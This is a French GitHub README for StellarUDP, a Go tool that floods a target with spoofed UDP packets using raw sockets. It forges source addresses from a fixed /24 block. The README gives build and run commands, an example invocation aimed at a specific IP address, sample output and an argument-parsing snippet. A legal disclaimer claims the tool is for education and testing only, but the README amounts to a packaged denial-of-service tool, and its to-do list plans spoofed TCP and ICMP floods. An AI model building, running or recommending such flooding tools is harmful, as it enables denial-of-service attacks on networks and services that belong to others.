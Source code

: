 🌌 StellarUDP

    Développé par StellarBots123 — Membre de la team [Stellar-iot]

🚀 StellarUDP est un outil d’envoi massif de paquets UDP spoofés, écrit en Go, conçu pour tester la résilience réseau. Léger, rapide, sans dépendance à libpcap, il permet de simuler des charges réseau réalistes à partir d’un bloc IP spécifique.
✨ Fonctionnalités

    🔥 Envoi ultra-rapide de paquets UDP

    🎭 Spoofing IP dans le bloc 212.64.201.0/24

    🧱 Construction manuelle des entêtes IP + UDP (raw socket)

    ⏳ Contrôle complet via 4 arguments : IP cible, port, durée, taille paquet

    💻 100% Go — aucun outil externe requis

⚙️ Compilation

git clone https://github.com/StellarBots123/StellarUDP.git
cd StellarUDP
go build -o flood flood.go

🚀 Utilisation

sudo ./flood <IP_CIBLE> <PORT> <DUREE_SECONDES> <TAILLE_PACKET>

Exemple :

sudo ./flood 192.250.230.103 1337 60 1024

Argument	Description
IP_CIBLE	L’adresse IP cible
PORT	Port UDP de destination
DUREE_SECONDES	Durée d’exécution du flood (ex : 60)
TAILLE_PACKET	Taille de chaque paquet (ex : 1024 octets)
📤 Exemple de sortie

[+] Cible : 192.250.230.103
[+] Port : 1337
[+] Durée : 60 secondes
[+] Taille paquet : 1024 octets
[+] Bloc généré avec 256 IP spoofées.
[+] IP spoofée : 212.64.201.1
...
[+] Terminé après 60 secondes.

📘 Aide intégrée dans le code

if len(os.Args) != 5 {
	fmt.Println("📘 Usage: sudo ./flood <IP_CIBLE> <PORT> <DUREE_SECONDES> <TAILLE_PACKET>")
	fmt.Println("Exemple: sudo ./flood 192.250.230.103 1337 60 1024")
	return
}

⚠️ Avertissement légal

    ❗ StellarUDP est un outil à usage éducatif et de test uniquement.
    Toute utilisation sur des réseaux ou machines sans autorisation explicite est illégale et interdite.
    Vous êtes seul responsable de son usage.

💡 To-do

Option --quiet pour désactiver l'affichage

Support TCP/ICMP spoofé

Ajout d'autres blocs IP configurables

    Interface CLI interactive

👨‍💻 Auteur

    👾 Projet créé par StellarBots123
    🛰️ Membre de la team Stellar-iot
    🔗 GitHub
